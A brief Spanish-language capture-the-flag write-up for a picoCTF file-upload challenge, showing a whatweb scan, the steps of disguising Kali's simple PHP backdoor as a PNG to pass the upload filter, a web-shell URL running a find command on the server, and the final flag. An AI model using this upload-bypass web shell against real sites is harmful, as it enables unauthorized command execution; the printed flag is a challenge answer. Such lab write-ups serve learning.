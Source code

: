 ## Introducción
I found a web app that can help process images: PNG images only!

Additional details will be available after launching your challenge instance.

## Descripción
activar instancia
Entrar al link
```
┌──(kali㉿kali)-[~]
└─$ whatweb http://atlas.picoctf.net:53111/
http://atlas.picoctf.net:53111/ [200 OK] Apache[2.4.56], Country[UNITED STATES][US], HTML5, HTTPServer[Debian Linux][Apache/2.4.56 (Debian)], IP[18.217.83.136], PHP[8.0.30], Title[File Upload Page], X-Powered-By[PHP/8.0.30]
                                                                  
```

## Comandos

locate webshells/php
cp  /usr/share/webshells/php/simple-backdoor.php webshells.php

nano webshells.php = se le agrega PNG al principio
se sube el archivo
instalar lista de palabras
sudo apt install wordlist


http://atlas.picoctf.net:52606/uploads/webshellssss.png.php?cmd=find%20/%20-name%20*txt%202%3E/dev/null

## Solución 
picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_03d1d548}
